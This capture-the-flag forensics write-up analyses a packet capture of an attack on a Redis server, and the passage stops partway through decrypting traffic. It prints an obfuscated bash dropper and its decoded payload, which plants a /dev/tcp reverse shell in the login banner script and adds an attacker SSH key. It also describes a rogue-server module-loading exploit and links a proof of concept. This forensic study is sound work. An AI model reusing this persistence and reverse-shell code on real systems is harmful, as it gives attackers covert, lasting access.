# WRITE_UP #

## REDTRAILS ##

### 1. Analysis ###
* **Given:** a pcap file named `capture.pcap`
* **Description:** Our SOC team detected a suspicious activity on one of our redis instance. Despite the fact it was password protected it seems that the attacker still obtained access to it. We need to put in place a remediation strategy as soon as possible, to do that it's necessary to gather more informations about the attack used. NOTE: flag is composed by three parts.
* **Hints:**   
    * No hints are given

### 2. Investigation ###
#### The second flag ####
The pcap file is quite small, so I don't focus on investigating any specific protocol first.

In several first packets, I identify a `RESP` protocol:



> * **RESP** (REdis Serialization Protocol): The standard wire protocol used by the `Redis` database to communicate between clients and servers. It is a simple, human-readable, and text-based protocol, which makes it easy to parse and analyze in plain text during packet inspection. 
> * **Redis** (Remote Dictionary Server): An advanced, open-source, in-memory data structure store. Unlike traditional relational databases, Redis uses a `NoSQL` key-value architecture, allowing for extremely fast data retrieval. It operates entirely in memory and communicates with clients using the `RESP` protocol. 

Follow the `RESP` stream:



Below, the attackers use `HGETALL` to get the email and passwors of several users, inside, the second part of the flag can be seen:



The second part of the flag is: `_c0uld_0p3n_n3w`

#### The first flag ####
In the same stream, at the end of the payload, we can see that the attackers use 3 different tools to install a file named `VgLy8V0Zxo` from `http://files.pypi-install.com/packages` and use `bash VgLy8V0Zxo` to run the suspicious file:



In the next TCP stream, we can find the payload of this `VgLy8V0Zxo` file:



The script is obfuscated, however we can easily deobfuscate it:
* The attacker assigns a lot of variables.
* `x=$(eval "$Hc2$w$c$rQW$d$s$w$b$Hc2$v$xZp$f$w$V9z$rQW$L$U$xZp")` concatenates the attackers real command:
  * With some variables are junks, and some are empty, the real payload is only: 

```bash
x=$(echo '==gCHF...' | rev | base64 -d)
``` 
* `eval "$N0q$x$Hc2$rQW"` to execute the command, after replacing all the empty variables, it only becomes:
```bash
eval "$x"
``` 

The base64 encoded reverse string is assigned to `$s`, using CyberChef I can decrypt the malicious script:



```bash
#!/bin/bash

lhJVXukWibAFfkv() {
	ABvnz='ZWNobyAnYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3R'
	QOPjH='jcC8xMC4xMC4wLjIwMC8xMzM3IDA+JjEiJyA+IC9'
	gQIxX='ldGMvdXBkYXRlLW1vdGQuZC8wMC1oZWFkZXIK'
    echo "$ABvnz$QOPjH$gQIxX" | base64 --decode | bash
}

x7KG0bvubT6dID2() {
	LQebW="ZWNobyAtZSAiXG5zc2gtcnNhIEFBQUFCM056YUMxeWMyRUFBQUFEQVFBQkFBQUNBUUM4VmtxOVVUS01ha0F4MlpxK1BuWk5jNm5ZdUVL"
	gVR7i="M1pWWHhIMTViYlVlQitlbENiM0piVkp5QmZ2QXVaMHNvbmZBcVpzeXE5Smc2L0tHdE5zRW10VktYcm9QWGh6RnVtVGdnN1oxTnZyVU52"
	bkzHk="bnFMSWNmeFRuUDErLzRYMjg0aHAwYkYyVmJJVGI2b1FLZ3pSZE9zOEd0T2FzS2FLMGsvLzJFNW8wUktJRWRyeDBhTDVIQk9HUHgwcDhH"
	q97up="ckdlNGtSS29Bb2tHWHdEVlQyMkxsQnlsUmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3SzEzdEhYekVrN09jaVVtZDUvWjdZdW9s"
	GYJan="bnQzQnlYOWErSWZMTUQvRlFOeTFCNERZaHNZNjJPN28yeFIwdnhrQkVwNVVoQkFYOGdPVEcwd2p6clVIeG1kVWltWGdpeTM5WVZaYVRK"
	HJj6A="UXdMQnR6SlMvL1loa2V3eUYvK0NQMEg3d0lLSUVybGY1V0ZLNXNrTFlPNnVLVnB4NmFrR1hZOEdBRG5QVTNpUEsvTXRCQytScVdzc2Rr"
	fD9Kc="R3FGSUE1eEcyRm4rS2xpZDlPYm0xdVhleEpmWVZqSk1PZnZ1cXRiNktjZ0xtaTV1UmtBNit4NmpadGQyZ1loQ01nU1owaU05UnlZN2s3"
	hpAgs="SzEzdEhYekVrN09jaVVtZDUvWjdZdW9sbnQzQnlYOWErSWxTeGFpT0FEMmlOSmJvTnVVSXhNSC85SE5ZS2Q2bWx3VXBvdnFGY0dCcVhp"
	FqOPN="emNGMjFieE5Hb09FMzFWZm94MmZxMnFXMzBCRFd0SHJyWWk3NmlMaDAyRmVySEVZSGRRQUFBMDhOZlVIeUN3MGZWbC9xdDZiQWdLU2Iw"
	CpJLT="Mms2OTFsY0RBbzVKcEVFek5RcHViMFg4eEpJdHJidz09SFRCe3IzZDE1XzFuNTc0bmMzNSIgPj4gfi8uc3NoL2F1dGhvcml6ZWRfa2V5"
	PIx1p="cw=="
	echo "$LQebW$gVR7i$bkzHk$q97up$GYJan$HJj6A$fD9Kc$hpAgs$FqOPN$CpJLT$PIx1p" | base64 --decode | bash
}

hL8FbEfp9L1261G() {
	lhJVXukWibAFfkv
	x7KG0bvubT6dID2
}

hL8FbEfp9L1261G
```

The script only uses base64 to encode it real payload, after decoding the 2 deobfuscated function, their payloads look like this:

```bash
lhJVXukWibAFfkv() {
    echo 'bash -c "bash -i >& /dev/tcp/10.10.0.200/1337 0>&1"' > /etc/update-motd.d/00-header
}

x7KG0bvubT6dID2() {
    echo -e "\nssh-rsa AAAAB3NzaC1yc2EAAAADAQA...trbw==HTB{r3d15_1n574nc35" >> ~/.ssh/authorized_keys
}
```

This malscript does 2 things:
1. *Reverse shell establish*: The attackers overwrite the `00-header` inside `/etc/update-motd.d/`. This directory is responsible for generating the dynamic `Message of the Day` (MOTD) banner whenever a user logs in via SSH. The attackers plant reverse shell, which is executed and sent back to the attacker's C2 server at `10.10.0.200:1337` everytime a legitimate admin logs in.
2. Persistence: The attackers append their own RSA public key to the victim's `~/.ssh/authorized_keys` file, which enable them to have persistent SSH access to the victim's machine.

The first part of the flag can be spotted at the end of the RSA public key: 



The first part of the flag is: `HTB{r3d15_1n574nc35`

#### The third flag ####
The next stream is also a channel of Redis's client and server, where the attackers uploaded a suspicious `.so` module to the database:



This is a classic `Redis Rogue Server` exploit. Instead of a simple database query, the attackers utilized the `SLAVEOF` replication feature to drop and load a malicious `.so` module (x10SPFHN.so) to achieve `RCE`.

> **Redis Rogue Server exploit**: This exploits an authentication bypass on the `Redis` Server. The vulnerability is due to allowing attacker load a dynamic module and execute it remotely without authentication. A remote unauthorized attacker can exploit this vulnerability by sending a crafted TCP request to the system. Successful exploitation results in remote code execution on the target server.
> Source: [Redis Authentication Bypass Remote Code Execution](https://www.keysight.com/us/en/strikes/exploits/webapp/info/redis_unauthenticated_bypass_remote_code_execution.xml)
> Poc: [PoC](https://github.com/vulhub/redis-rogue-getshell)
 
Below, the attackers continue to execute command through RCE in the previous step, however, the server's responses seem to be encrypted:



However I can't find the encryption method, so let's check other streams first. Stream 6 has revealed the internal `Master-Slave synchronization` process in stream 2:



When the victim server receives the `SLAVEOF` command, it automatically initiates a background synchronization with the attacker's rogue master:
1. Health check `PING`: The victim pings the rogue master to check if it's alive and receives a `+PONG`.
2. Capability announcement `REPLCONF`: The victim announces its listening port and capabilities.
3. Synchronization request `PSYNC`: The victim issues a `PSYNC` command, requesting the master to send the database payload to sync their states.

Normally, a legitimate Redis master would respond with a `+FULLRESYNC` followed by a `.rdb` database snapshot. However, as I mentioned above, the attacker has modified the server so it can transfer a malicious executable. 

Now let's carve the malware, we can't directly export the file, so I copied raw bytes of this executable, pasted it to [Hexedit](https://hexed.it/) to extract it:







With the extracted malware, I use `strings` and identify 2 strings look like AES key an iv:



But to be certain, I open the file in IDA, in function `DoCommand`, I validate my hypothesis:



Now I can decrypt the encrypted hex strings in stream2 to ciphertext:





